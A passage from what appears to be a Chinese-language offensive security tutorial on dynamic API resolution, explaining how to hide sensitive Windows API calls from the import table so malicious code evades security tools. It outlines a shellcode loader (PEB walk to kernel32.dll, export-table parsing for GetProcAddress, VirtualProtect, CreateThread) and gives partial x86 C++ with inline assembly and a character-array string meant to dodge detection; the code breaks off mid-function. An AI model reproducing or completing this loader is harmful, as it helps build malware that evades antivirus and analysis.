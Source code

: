

# 14.动态api函数加载

## 简介

传统的静态导入API函数会在可执行文件的导入表中明确列出所有用到的函数。这使得恶意代码容易被安全工具和分析人员发现，因为敏感API函数的使用通常表明了恶意行为。

而动态调用API函数，如本示例中的代码所展示的，可以在运行时动态解析并获取API函数的地址。这样，敏感函数不会出现在导入表中，从而使得恶意代码更难被发现。此外，动态调用API函数还可以结合其他技术（如代码混淆、加密等）来进一步提高恶意代码的隐蔽性



## 实现思路

- 定位关键模块：首先找到包含核心API函数的关键模块（如kernel32.dll）。这通常可以通过解析PEB（Process Environment Block）中的模块列表来完成。
- 获取GetProcAddress：定位到kernel32.dll后，需要解析导出表（Export Table）以获取GetProcAddress函数的地址。GetProcAddress是一个核心函数，用于在运行时动态解析其他API函数的地址。
- 加载其他API：通过GetProcAddress函数，可以逐个获取其他需要的API函数的地址。例如，可以通过GetProcAddress获取VirtualProtect、CreateThread和WaitForSingleObject等函数的地址。
- 准备Shellcode：将Shellcode存储在缓冲区中，使用VirtualProtect函数将缓冲区的内存页属性更改为可执行，以确保可以安全地执行Shellcode。
- 创建线程并执行Shellcode：使用CreateThread函数创建一个新线程，并将Shellcode的地址作为线程的启动例程。线程创建后，使用WaitForSingleObject等待线程执行完成



## x86代码实现

```cpp
#include <stdio.h>
#include <windows.h>

//声明定义api函数
typedef FARPROC(WINAPI* p_GetProcAddress)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);
typedef HMODULE(WINAPI* p_LoadLibraryA)(__in LPCSTR lpLibFileName);
typedef BOOL(WINAPI* p_VirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* p_CreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* p_WaitForSingleObject)(HANDLE, DWORD);


// 内联汇编函数，用于获取Kernel32.dll模块的基地址
HMODULE inline __declspec(naked) GetKernel32Moudle()
{
    __asm
    {
        mov eax, fs: [0x30] ;
        mov eax, [eax + 0xc];
        mov eax, [eax + 0x14]
            mov eax, [eax];
        mov eax, [eax];
        mov eax, [eax + 0x10];
        ret;
    }
}

//获取GetProcAddress函数的地址
DWORD pGetProcAddress(HMODULE Kernel32Base) {
    char szGetProcAddr[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 };
    DWORD result = NULL;

    // 遍历kernel32.dll的导出表，找到GetProcAddr函数地址
    PIMAGE_DOS_HEADER pDosHead = (PIMAGE_DOS_HEADER)Kernel32Base;
    PIMAGE_NT_HEADERS pNtHead = (PIMAGE_NT_HEADERS)((DWORD)Kernel32Base + pDosHead->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptHead = (PIMAGE_OPTIONAL_HEADER)&pNtHead->OptionalHeader;
```